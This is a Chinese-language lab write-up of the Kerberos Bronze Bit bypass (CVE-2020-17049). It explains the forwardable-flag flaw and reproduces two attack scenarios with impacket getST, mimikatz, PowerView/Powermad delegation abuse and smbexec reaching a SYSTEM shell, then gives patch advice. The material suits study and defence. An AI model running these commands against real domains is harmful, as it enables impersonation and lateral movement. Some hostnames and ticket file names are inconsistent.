# CVE-2020-17049_kerberos-bronze-bit攻击

CVE-2020-17049是一个Kerberos KDC 安全功能绕过漏洞。该漏洞绕过了用户属性被设置为**敏感用户，不能被委派**或者用户加入了**Protected Users用户组**的安全措施，导致这些用户也能被委派；绕过了约束性委派**仅使用kerberos**选项，即无法进行协议转换。

# 漏洞原理

S4u2Self协议中的TGS-REQ请求中的kdc-options中的[forwardable](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/4a624fb5-a078-4d30-8ad1-e9ab71e0bc47#gt_4c6cd79b-120d-4ee1-ab24-d1b000e0b3ca)字段是决定TGS-REP返回的ST能否被用于下一阶段的S4u2Proxy，如果被设置为False，会再检查是否支持协议转换并且检查用户是否被阻止委派，如果结果为false，则S4u2Proxy会请求失败



ST的[Forwardable](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/ad98268b-f75b-42c3-b09b-959282770642)字段被KDC设置为**True**的情况:
- 在服务的**userAccountControl**属性**TrustedForDelegation**被设置为**True**时，即非约束性委派
- 在服务的**userAccountControl**属性**TrustedToAuthenticationForDelegation**被设置为**True**时，即约束性委派
- 在服务被设置为其他服务的[ServicesAllowedToReceiveForwardedTicketsFrom](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/0b4d13c4-d459-4598-8f08-1584ca1e24c9)属性的值时，即RBCD

ST的Forwardable字段被KDC设置为**False**:
- 在服务的**TrustedToAuthenticationForDelegation**属性被设置为**False**并且[ServicesAllowedToSendForwardedTicketsTo](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/6d76bf10-3c48-4e14-9992-df1bd456455e)为非空时
- 在服务的**DelegationNotAllowed**属性被设置时

接下来讲讲漏洞利用的成因，因为forwardable字段的值只是通过第一个服务的hash加密保护，所以如果攻击者获取了该服务的hash就可以解密ST，修改forwardable为True后再重新加密即可，而且ST的这一部分没有签名，无法检测篡改



# 环境复现

## 场景一

尝试绕过设置了**仅使用kerberos认证**的约束性委派和模拟**被设置为阻止委派**的用户身份

### 环境配置

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN2012 ( 10.0.0.139 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 普通域用户: User1,User2
- 域: xie.com

配置WIN7主机对WIN2012的委派



配置xie\User2为敏感用户，禁止委派



配置xie\User2为受保护用户



添加xie\User2为WIN2012管理，xie\User1为WIN7管理



### 攻击复现

现在我们已经获得WIN7主机上的xie\User1用户的凭据，需要横向到WIN2012主机，现在我们是没有WIN2012访问权限的

```bash
C:\Users\User1>dir \\WIN2012.xie.com\c$
拒绝访问。

C:\Users\User1>whoami
xie\user1
```

用[secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)导出WIN7主机的AES256-CTS-HMAC-SHA1-96和LM:NTLM hash



拿到必要的hash之后使用getST使WIN7模拟用户User2访问WIN2012的cifs服务，需要加上`-force-forwardable`来修改forwardable字段的值，可以看到成功返回ST

```bash
python getST.py -impersonate User2 -spn cifs/WIN2012.xie.com -hashes <LM:NTLM> -aesKey <hash>  xie/WIN7 -dc-ip 10.0.0.133 -force-forwardable
```



猕猴桃导入ticket

```bash
mimikatz.exe "kerberos::ptc User2.ccache" "exit"


mimikatz(commandline) # kerberos::ptc User2.ccache

Principal : (01) : User2 ; @ xie

Data 0
           Start/End/MaxRenew: 2024/10/3 15:11:38 ; 2024/10/4 1:11:38 ; 2024/10/4 15:12:01
           Service Name (02) : cifs ; WIN2012.xie.com ; @ XIE.COM
           Target Name  (02) : cifs ; WIN2012.xie.com ; @ XIE.COM
           Client Name  (01) : User2 ; @ xie
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000017 - rc4_hmac_nt d1a47478605c352ebec3796fc7c62eed
           Ticket            : 0x00000000 - null              ; kvno = 2
[...]
           * Injecting ticket : OK

```

成功访问WIN2012的cifs服务
```bash
C:\Users\Public\Documents>dir \\WIN2012.xie.com\c$
 驱动器 \\WIN2012.xie.com\c$ 中的卷没有标签。
 卷的序列号是 7C62-956B

 \\WIN2012.xie.com\c$ 的目录

2013/08/22  23:52    <DIR>          PerfLogs
2013/08/22  22:50    <DIR>          Program Files
2013/08/22  23:39    <DIR>          Program Files (x86)
2024/10/02  16:47    <DIR>          Users
2024/10/02  11:52    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 53,678,346,240 可用字节

```

## 场景二

通过对WIN2012主机的属性写入权限来入侵WIN2012

### 环境配置

User2和上一个攻击场景保持相同的设置。这次用域控移除WIN7的委派



在域控编辑WIN2012主机属性给予User1写入权限



### 攻击复现

假设我们已经获取WIN7主机权限，为了横向到WIN2012主机，借助User1对WIN2012的写入权限，我们可以创建从WIN7到WIN2012的基于资源的约束性委派

```powershell
Import-Module .\PowerView.ps1
$AttackerSID = Get-DomainUser User1 -Properties objectsid | Select -Expand objectsid
$ACE = Get-DomainObjectACL "WIN2012.xie.com" -ResolveGUIDs | ?{$_.SecurityIdentifier -match $AttackerSID}
$ACE | Select-Object ObjectAceType,ActiveDirectoryRights


#BinaryLength          : 36
#AuditFlags            : None
#InheritanceFlags      : None
#PropagationFlags      : None
#AceFlags              : None
#AccessMask            : 131132
#AceType               : AccessAllowed
#ObjectSID             : S-1-5-21-2255574704-2553525763-2083768959-1143
#SecurityIdentifier    : S-1-5-21-2255574704-2553525763-2083768959-1144
#IsCallback            : False
#ObjectDN              : CN=WIN2012,CN=Computers,DC=xie,DC=com
#AceQualifier          : AccessAllowed
#IsInherited           : False
#ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
#OpaqueLength          : 0
```

使用[Powermad](https://github.com/Kevin-Robertson/Powermad)创建一个机器账户，密码随便设置

```bash
Import-Module .\powermad.ps1
New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'ThisRandomPass' -AsPlainText -Force)

#[+] Machine account AttackerService added
```

因为机器账户的密码是我们自己指定的，所以可以通过猕猴桃计算出hash

```bash
mimikatz(commandline) # kerberos::hash /user:AttackerService /password:ThisRandomPass /domain:xie.com
        * rc4_hmac_nt       7b374f90c36b60cc6a986ef52a428b2a
        * aes128_hmac       96ca700279068805f8fedbfd8cf372ce
        * aes256_hmac       089af22907f63ae31ced6ec01d73a58f3cd436706aa59886cff7889c1921d5a1
        * des_cbc_md5       5b45fec4467a9bcd
```

通过User1修改WIN2012的**msds-allowedtoactonbehalfofotheridentity**属性

```
Import-Module PowerView.ps1
$IdentitySID = Get-DomainComputer | Where-Object { $_.name -eq "AttackerService" } | Select-Object -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($IdentitySID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer "WIN2012.xie.com" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
#检查是否修改成功
Get-DomainComputer WIN2012R203 -Properties msds-allowedtoactonbehalfofotheridentity
```

现在通过AttackerService用户即计算出的hash，通过getST模块来获取ST

```
python getST.py -impersonate User2 -spn cifs/WIN2012.xie.com -hashes aad3b435b51404eeaad3b435b51404ee:7b374f90c36b60cc6a986ef52a428b2a -aesKey 089af22907f63ae31ced6ec01d73a58f3cd436706aa59886cff7889c1921d5a1  xie/AttackerService -dc-ip 10.0.0.133 -force-forwardable
```



最后导入ST，访问WIN2012

```bash
export KRB5CCNAME=administrator.ccache
python smbexec.py -no-pass -k WIN2012R203.xie.com
#Impacket v0.11.0 - Copyright 2023 Fortra

#[!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system
```

# 漏洞预防与修复

更新微软发布的相关漏洞修补程序。修复原理，在S4u2Self阶段返回的ST，KDC用其密钥对ST进行了前面，并将前面插入到PAC当中，防止了攻击者对ST的篡改


# 参考

- <https://www.netspi.com/blog/technical-blog/network-pentesting/cve-2020-17049-kerberos-bronze-bit-overview/>
- <https://www.netspi.com/blog/technical-blog/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-attack/>
- <https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/0b4d13c4-d459-4598-8f08-1584ca1e24c9>
